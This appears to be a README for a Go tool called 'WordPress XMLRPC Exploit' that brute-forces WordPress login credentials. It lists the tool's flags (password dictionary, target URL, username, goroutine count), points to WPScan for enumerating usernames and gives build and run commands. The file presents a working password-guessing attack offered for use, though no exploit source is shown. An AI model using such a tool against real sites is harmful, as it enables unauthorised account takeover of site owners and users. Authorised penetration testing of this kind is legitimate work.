 # WordPress XMLRPC Exploit

> Brute-force a WordPress website user login credentials

## Usage

```md
Usage of ./main:
  -dict string
        A text dictionary containing passwords to try (default "dict.txt")
  -routines int
        Maximum number of Goroutines to spawn (default 10)
  -url string
        URL to WordPress website to target (without trailing /) (default "https://www.wordpress-site.com")
  -user string
        Username to brute-force (default "admin")

```

### Where do I get the Website Usernames?

You can use the excellent [WPScan](https://github.com/wpscanteam/wpscan) to Enumerate username for any vulnerable WordPress website.

## Compilation & Execution
```bash
$ make build
$ ./args -dict ./dict/dict.txt -url "http://localhost:8000" -user "admin" -routines 5
```
